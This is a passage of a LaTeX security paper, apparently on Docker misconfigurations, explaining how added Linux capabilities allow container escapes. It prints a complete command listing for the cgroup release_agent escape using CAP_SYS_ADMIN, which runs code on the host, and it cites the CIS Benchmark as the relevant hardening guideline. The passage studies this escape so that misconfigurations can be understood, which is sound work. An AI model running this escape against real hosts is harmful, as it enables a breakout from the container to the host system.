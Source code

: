 \subsection{Capabilities}\label{misconfigurations:subsection:capabilities}
As we saw in \autoref{protection-mechanisms:subsection:capabilities}, to perform privileged actions in the Linux kernel, a process needs the relevant \lstinline{capability}. Docker containers are started with minimal capabilities, but it is possible to add extra capabilities on runtime. Giving containers extra capabilities, gives the container permission to perform certain actions. Some of these actions allow Docker escapes. We will look at two such capabilities.

\hfill

The CIS Benchmark covers all of these problems in one guideline: 5.3 (Ensure that Linux kernel capabilities are restricted within containers).

\subsubsection{\texorpdfstring{\lstinline{CAP_SYS_ADMIN}}{CAP SYS ADMIN}}
The Docker escape by Felix Wilhelm\cite{Felix-Wilhem-Tweet} we used in \autoref{subsection:privileged} needs to be run in privileged mode to work, but it can be rewritten to only need the permission to run \lstinline{mount}\cite{TrailOfBits-Docker-Escape}, which is granted by the \lstinline{CAP_SYS_ADMIN} capability.

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_SYS_ADMIN}.},captionpos=b]
(host)$ docker run --rm -it --cap-add=CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu /bin/bash
(cont)# mkdir /tmp/cgrp
(cont)# mount -t cgroup -o rdma cgroup /tmp/cgrp
(cont)# mkdir /tmp/cgrp/x
(cont)# echo 1 > /tmp/cgrp/x/notify_on_release
(cont)# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
(cont)# echo "$host_path/cmd" > /tmp/cgrp/release_agent
(cont)# echo '#!/bin/sh' > /cmd
(cont)# echo "ps aux > $host_path/output" >> /cmd
(cont)# chmod a+x /cmd
(cont)# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
(cont)# cat /output
\end{lstlisting}

Unlike before, instead of relying on \lstinline{--privileged} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as before. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

